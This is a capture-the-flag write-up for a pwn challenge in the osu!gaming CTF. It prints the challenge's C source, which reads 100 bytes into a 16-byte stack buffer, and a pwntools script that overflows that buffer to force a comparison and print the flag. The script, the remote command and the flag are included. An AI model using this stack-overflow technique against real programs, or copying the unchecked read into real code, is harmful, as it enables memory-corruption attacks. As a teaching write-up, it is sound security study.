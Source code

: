 # osu!gaming CTF > pwn > bettherthanu

The binary comprises **two** user inputs, one prompting the user to input their earned `pp` and the other asking for any **"last words"**. Both inputs are stored in the character array `char buf[16]`. Subsequently, the binary calculates the value of `pp` as the user-provided value plus 1.

In the initial `if` statement, the program checks if the calculated value `my_pp` (which is the input value of `pp` + 1) is not **greater** than the original user-provided `pp`. If this condition is not met, it proceeds to another `if` statement. Here, it verifies whether the user-entered value of `pp` is exactly `727`. If this condition is satisfied, the program prints the flag.

The C code of the binary challenge:
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <stdint.h>

FILE *flag_file;
char flag[100];

int main(void) {
    unsigned int pp;
    unsigned long my_pp;
    char buf[16];

    setbuf(stdin, NULL);
    setbuf(stdout, NULL);

    printf("How much pp did you get? ");
    fgets(buf, 100, stdin);
    pp = atoi(buf);

    my_pp = pp + 1;

    printf("Any last words?\n");
    fgets(buf, 100, stdin);

    if (pp <= my_pp) {
        printf("Ha! I got %d\n", my_pp);
        printf("Maybe you'll beat me next time\n");
    } else {
        printf("What??? how did you beat me??\n");
        printf("Hmm... I'll consider giving you the flag\n");

        if (pp == 727) {
            printf("Wait, you got %d pp?\n", pp);
            printf("You can't possibly be an NPC! Here, have the flag: ");

            flag_file = fopen("flag.txt", "r");
            fgets(flag, sizeof(flag), flag_file);
            printf("%s\n", flag);
        } else {
            printf("Just kidding!\n");
        }
    }

    return 0;
}
```

The goal is to control the values compared in both `if` statements, overwriting the values in the stack via a **buffer overflow**.

### Exploit
```python
#!/usr/bin/env python3
from pwn import *

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw, env={"LD_PRELOAD": "/bin/bash"})
    elif args.REMOTE: # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else: # Run locally
        return process([exe] + argv, *a, **kw)

gdbscript = '''
init-pwndbg
'''.format(**locals())

exe = "./challenge"
elf = context.binary = ELF(exe, checksec=False)

io = start()
io.sendline(b"foo")

offset = 16
payload = flat({
    offset: [
        b'\x00' * 12, 
        p32(0x02d7)  
    ]
})

io.sendline(payload)

io.recvuntil(b"Wait, you got 727 pp?\n")
flag_line = io.recvline().decode().strip()
start_index = flag_line.find("osu{")

flag = flag_line[start_index:]
log.success(f"Flag: {flag}")
```

In order to run the exploit and get the actual flag, we can pass the remote server and port as `REMOTE` arguments in the same script, as the pwntools template enables us to do (i.e. `python3 solve.py REMOTE chal.osugaming.lol 7279`)

Flag: `osu{i_cant_believe_i_saw_it}`
